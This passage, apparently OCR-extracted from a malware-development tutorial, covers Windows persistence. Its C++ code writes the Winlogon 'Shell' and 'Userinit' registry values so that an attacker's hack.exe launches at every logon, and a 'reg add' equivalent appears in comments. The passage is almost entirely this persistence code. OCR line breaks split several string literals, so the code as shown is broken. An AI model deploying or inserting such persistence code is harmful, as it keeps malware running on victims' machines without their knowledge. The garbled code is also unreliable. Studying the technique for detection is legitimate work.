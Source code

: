 ```cpp
    // create new registry key

    // reg add 
    // "HKEY_LOCAL_MACHINE\Software\Microsoft\Windows
    // NT\CurrentVersion\Winlogon" 
    // /v "Shell" /t REG_SZ /d "explorer.exe,..." /f
    RegSetValueEx(hkey, (LPCSTR)"Shell", 0, REG_SZ, 
    (unsigned char*)sh, strlen(sh));
    RegCloseKey(hkey);
  }

  return 0;
}
```

Also, similar for `Userinit`. If this registry key include an malicious app will result in the execution of both `userinit.exe` and `hack.exe` during Windows logon:

```cpp
/*
pers.cpp
windows persistence via winlogon keys
author: @cocomelonc
https://cocomelonc.github.io/tutorial/
2022/06/12/malware-pers-7.html
*/
#include <windows.h>
#include <string.h>

int main(int argc, char* argv[]) {
  HKEY hkey = NULL;

  // userinit
  const char* ui = "C:\\Windows\\System32\\userinit.exe,
  Z:\\2022-06-12-malware-pers-7\\hack.exe";

  // startup
  LONG res = RegOpenKeyEx(HKEY_LOCAL_MACHINE, 
  (LPCSTR)
  "SOFTWARE\\Microsoft\\Windows NT\\CurrentVersion\\Winlogon", 
  0 , KEY_WRITE, &hkey);
  if (res == ERROR_SUCCESS) {
    // create new registry key

    // reg add 
    // "HKEY_LOCAL_MACHINE\Software\Microsoft\Windows
    // NT\CurrentVersion\Winlogon" 
    // /v "Shell" /t REG_SZ /d "explorer.exe,..." /f
    RegSetValueEx(hkey, (LPCSTR)"Userinit", 0, 
    REG_SZ, (unsigned char*)ui, strlen(ui));
    RegCloseKey(hkey);
  }

  return 0;
}
```
